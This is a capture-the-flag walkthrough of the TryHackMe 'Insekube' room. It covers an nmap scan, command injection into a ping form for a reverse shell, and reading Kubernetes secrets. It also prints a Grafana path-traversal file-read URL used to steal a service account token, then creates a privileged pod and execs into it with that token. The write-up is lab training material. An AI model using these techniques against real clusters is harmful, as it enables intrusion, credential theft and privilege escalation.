Exploiting Kubernetes by leveraging a Grafana LFI vulnerability

Created by [congon4tor](https://tryhackme.com/p/congon4tor), this [room](https://tryhackme.com/room/insekube) is free, but in each section there are links to different rooms as tips to the tools and methods to tackle the tasks.

## Reconnaissance

```
The learning objectives for this room are:

    Interacting with the cluster using kubectl
    Reading Kubernetes secrets
    Doing recon inside the cluster
    Switching service accounts to escalate your privileges
    Lateral movement into other workloads
    Gaining access to the Kubernetes nodes
```

Task 1, named "Introduction", sets out the learning objectives of the room and gives the first step... Scanning the machine!

```
$ nmap -sC -sV <ip-address>
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-27 04:40 EST
Nmap scan report for 10.10.6.151
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
xx/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9f:ae:04:9e:f0:75:ed:b7:39:80:a0:d8:7f:bd:61:06 (RSA)
|   256 cf:cb:89:62:99:11:d7:ca:cd:5b:57:78:10:d0:6c:82 (ECDSA)
|_  256 5f:11:10:0d:7c:80:a3:fc:d1:d5:43:4e:49:f9:c8:d2 (ED25519)
xx/tcp open  http
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sun, 27 Feb 2022 09:40:53 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1196
|     Connection: close
|     <!DOCTYPE html>
|     <head>
|     <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css"
|     integrity="sha384-JcKb8q3iqJ61gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP+VmmDGMN5t9UJ0Z" crossorigin="anonymous">
|     <style>
|     body,
|     html {
|     height: 100%;
|     </style>
|     </head>
|     <body>
|     <div class="container h-100">
|     <div class="row mt-5">
|     <div class="col-12 mb-4">
|     class="text-center">Check if a website is down 
|     </h3>
|     </div>
|     <form class="col-6 mx-auto" action="/">
|     <div class=" input-group">
|     <input name="hostname" value="" type="text" class="form-control" placeholder="Hostname"
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Date: Sun, 27 Feb 2022 09:40:53 GMT
|     Content-Type: text/plain; charset=utf-8
|     Content-Length: 18
|     Allow: GET, HEAD
|     Connection: close
|_    Method Not Allowed
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.92%I=7%D=2/27%Time=621B4725%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,535,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2027\x20Feb\x20202
SF:2\x2009:40:53\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\
SF:nContent-Length:\x201196\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20ht
SF:ml>\n\n<head>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"ht
SF:tps://stackpath\.bootstrapcdn\.com/bootstrap/4\.5\.2/css/bootstrap\.min
SF:\.css\"\n\x20\x20\x20\x20\x20\x20\x20\x20integrity=\"sha384-JcKb8q3iqJ6
SF:1gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP\+VmmDGMN5t9UJ0Z\"\x20crossorigin
SF:=\"anonymous\">\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20body,\n\x20\x20\x20\x20\x20\x20\x20\x20html\x20{\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20height:\x20100%;\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20}\n\x20\x20\x20\x20</style>\n</head>\n\n<body>\n\x20\x20\x20\x
SF:20<div\x20class=\"container\x20h-100\">\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20<div\x20class=\"row\x20mt-5\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20<div\x20class=\"col-12\x20mb-4\">\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<h3\x20class=\"text-center\">Che
SF:ck\x20if\x20a\x20website\x20is\x20down\x20\xf0\x9f\x92\xa3</h3>\n\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20<form\x20class=\"col-6\x20mx-auto\"\x20actio
SF:n=\"/\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20<div\x20class=\"\x20input-group\">\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<input\x20name=\"hostna
SF:me\"\x20value=\"\"\x20type=\"text\"\x20class=\"form-control\"\x20placeh
SF:older=\"Hostname\"\n\x20\x20\x20\x20\x20\x20\x20")%r(HTTPOptions,BC,"HT
SF:TP/1\.1\x20405\x20Method\x20Not\x20Allowed\r\nDate:\x20Sun,\x2027\x20Fe
SF:b\x202022\x2009:40:53\x20GMT\r\nContent-Type:\x20text/plain;\x20charset
SF:=utf-8\r\nContent-Length:\x2018\r\nAllow:\x20GET,\x20HEAD\r\nConnection
SF::\x20close\r\n\r\nMethod\x20Not\x20Allowed")%r(RTSPRequest,BC,"HTTP/1\.
SF:1\x20405\x20Method\x20Not\x20Allowed\r\nDate:\x20Sun,\x2027\x20Feb\x202
SF:022\x2009:40:53\x20GMT\r\nContent-Type:\x20text/plain;\x20charset=utf-8
SF:\r\nContent-Length:\x2018\r\nAllow:\x20GET,\x20HEAD\r\nConnection:\x20c
SF:lose\r\n\r\nMethod\x20Not\x20Allowed");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.32 seconds
```
The first answer can be answered before moving on to Task 2.

## Compromise the machine

Task 2 tells us to visit the website and use command injection to get a reverse shell. Let's see first how the page seems to work.



Looks like a the page executes the `ping` command transmitting two packets.

This can be exploited like so:



Let's create a [reverse shell](https://www.revshells.com/) and start a listener.



Check the environment variable and get flag 1!



Now follow Task 3 to get slightly familiar with Kubernetes

```
$ cd /tmp
$ ls -la
total 45504
drwxrwxrwt 1 root root     4096 Jan 30 19:56 .
drwxr-xr-x 1 root root     4096 Feb 27 09:31 ..
-rwxrwxr-x 1 root root 46587904 Jan 30 19:17 kubectl
$ ./kubectl get pods
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:default:syringe" cannot list resource "pods" in API group "" in the namespace "default"
$ ./kubectl auth can-i --list
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
secrets                                         []                                    []               [get list]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
```

Task 4 is on Kubernetes secrets, which can be listed with `./kubectl get secrets`. The contents are stored encoded in base64.

```
$ ./kubectl get secrets
NAME                    TYPE                                  DATA   AGE
default-token-8bksk     kubernetes.io/service-account-token   3      51d
developer-token-74lck   kubernetes.io/service-account-token   3      51d
secretflag              Opaque                                1      51d
syringe-token-g85mg     kubernetes.io/service-account-token   3      51d
```

To see the data in the secret, use `kubectl describe secret`. Remember to chose the output format and the clue given to get flag 2.



Task 5 is reconnaissance in the Kubernetes cluster, once again using the information found in the `env` variables, get information from the grafana page.



Now with a quick search answer both the questions from the task.

Now to get our hands on the token needed, some research needs to be made on the CVE... this vulnerability allows arbitrary file read via plugins installed in the Grafana application.

Looking at the information on the CVE, this is the following way that we can find the token!

```
url = "http://" + target_ip + ':' + target_port + '/public/plugins/' + plugin + '/../../../../../../../../../../../../../../../../../' + file_read```
```



It works! Now get that token and debug the [JSON Web Token](https://jwt.io/) to get the name of the service account running the Grafana service.



Now follow the steps shown in the room to answer the two questions left in the task.

Moving on to the last task, keep that token close, it is needed to find the final flag!

First step is to create the "bad" pod using the code available [here](https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml) so you have the following:



And execute the command!



If you want to further confirm the pod was created, run one of the previous commands now to see it.



Now it's time to use `kubectl exec` and get to the file system to get the flag.

```
$ ./kubectl exec -it everything-allowed-exec-pod --token=${TOKEN} -- /bin/bash
```



